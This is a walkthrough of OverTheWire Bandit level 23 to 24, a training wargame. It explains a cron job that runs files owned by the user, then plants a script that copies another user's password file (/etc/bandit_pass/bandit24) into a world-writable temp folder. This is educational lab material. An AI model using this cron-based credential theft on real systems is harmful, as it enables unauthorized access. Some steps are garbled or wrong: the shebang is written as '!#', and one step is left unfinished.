 # [Bandit Level 23 → Level 24](https://overthewire.org/wargames/bandit/bandit24.html)

## Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
NOTE: This level requires you to create your own first shell-script. 
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around.

## Theory

## Solution
1. Similar to the last two levels, find out what the script for this level does.
```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
2. The script executes and deletes all scripts in `/var/spool/$myname/foo`.
3. The `for` loop loops over all files in the directory `/var/spool/$myname/foo`.
4. The `if` statement exclues the directories '.' and '..'.
5. The `owner` variable stores the user of the file.
6. The next `if` statement checks if this owner is bandit23.
7. Then the file is deleted.
8. Since we are loggedin as bandit23, we can run the script to get the password for bandit24 using the 
9. The 'NOTE' says to keep a copy of the password before it is removed. Therefore we start by creating a `temp` folder. And then create a file called `bandit24.sh` in it.
```
bandit23@bandit:~$ mktemp -d
/tmp/tmp.OIBMBUmDXt
bandit23@bandit:~$ cd /tmp/tmp.OIBMBUmDXt
bandit23@bandit:/tmp/tmp.OIBMBUmDXt$ nano bandit24.sh
```
10. Write the following two lines in the file. Press ctrl+O to save it and then exit with ctrl+X. Use `cat` to verify if the code is properly written. Remember that the name of the temp folder is randomly generated and so wiil be different for you.
```
bandit23@bandit:/tmp/tmp.OIBMBUmDXt$ cat bandit24.sh
!#/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.OIBMBUmDXt/password
```
11. The above script copies `/etc/bandit_pass/bandit24` into `/tmp/tmp.OIBMBUmDXt/password`. Dont forget to create a file called `password`.
12. Give the necessary permissions to make `bandit24.sh` executable and also the temp folder.
```
bandit23@bandit:/tmp/tmp.OIBMBUmDXt$ chmod +rx bandit24.sh
bandit23@bandit:/tmp/tmp.OIBMBUmDXt$ chmod 777 /tmp/tmp.OIBMBUmDXt
bandit23@bandit:/tmp/tmp.OIBMBUmDXt$ touch password
```
13. Now copy `bandit24.sh` to the folder `/var/spool/$myname/foo` and wait for the script to run.
14. Use `cat` on `password` to see the password for the next level.
